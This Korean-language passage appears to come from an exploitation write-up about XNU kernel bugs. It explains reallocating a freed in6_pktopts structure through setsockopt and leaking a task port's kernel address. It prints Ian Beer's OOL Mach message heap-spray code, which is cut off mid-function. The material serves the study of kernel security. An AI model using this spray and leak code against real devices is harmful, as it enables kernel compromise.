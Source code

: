 여기에서 **`get/setsockopt`**를 사용하여

`ip6po_pktinfo`

`ip6po_tclass`

`ip6po_minmtu`

`ip6po_prefer_tempaddr`

필드를 제어할 수 있다고 한다.

취약점을 사용하여 원할 때마다 이 구조체를 해제하고, 
힙 스프레이를 사용하여 원하는 내용으로 할당할 수 있다는 것을 다시한번 상기하자.

우리가 먼저 할 수 있는 한 가지는 data leak이다.

`int                  ip6po_minmtu;`

`int                  ip6po_prefer_tempaddr;`

와 같은 정수를 읽을 수 있다. 

이를 통해 우리 태스크 포트의 커널 주소를 유출할 수 있다.

어떻게 하면 가능할까?
OOL 메시지를 활용한 Ian Beer의 간단한 스프레이 기법을 사용한다. 

OOL 메시지는 XNU의 프로세스 간 통신(IPC) 메커니즘에 중요하게 쓰이기도 하며,
메시지를 수신하기 전까지 계속 커널 공간에 남아두게 만들 수 있다.

[https://dmcyk.xyz/post/xnu_ipc_iii_ool_data/](https://dmcyk.xyz/post/xnu_ipc_iii_ool_data/)

여기서 관심 있는 객체, 예를 들어 **포트 권한(port right)** — 을 선택하고, 
해당 포트 권한을 여러 번 복사한 **OOL(Out-Of-Line) 디스크립터**가 포함된 Mach 메시지를 준비한다. 

앞서 본 기술을 사용해 이 메시지를 **다른 임시 포트(ephemeral port)** 로 전송하면, 
결과적으로 포트 디스크립터가 `kalloc` 존에 여러 번 복사되게 된다.

코드는 다음과 같다.

```c
// from Ian Beer. make a kernel allocation with the kernel address of 'target_port', 'count' times
mach_port_t fill_kalloc_with_port_pointer(mach_port_t target_port, int count, int disposition) {
    mach_port_t q = MACH_PORT_NULL;
    kern_return_t err;
    err = mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &q);
    if (err != KERN_SUCCESS) {
        printf("[-] failed to allocate port\n");
        return 0;
    }
    
    mach_port_t* ports = malloc(sizeof(mach_port_t) * count);
    for (int i = 0; i < count; i++) {
        ports[i] = target_port;
    }
    
    struct ool_msg* msg = (struct ool_msg*)calloc(1, sizeof(struct ool_msg));
    
    msg->hdr.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = (mach_msg_size_t)sizeof(struct ool_msg);
    msg->hdr.msgh_remote_port = q;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_id = 0x41414141;
    
    msg->body.msgh_descriptor_count = 1;
    
    msg->ool_ports.address = ports;
    msg->ool_ports.count = count;
    msg->ool_ports.deallocate = 0;
    msg->ool_ports.disposition = disposition;
    msg->ool_ports.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
```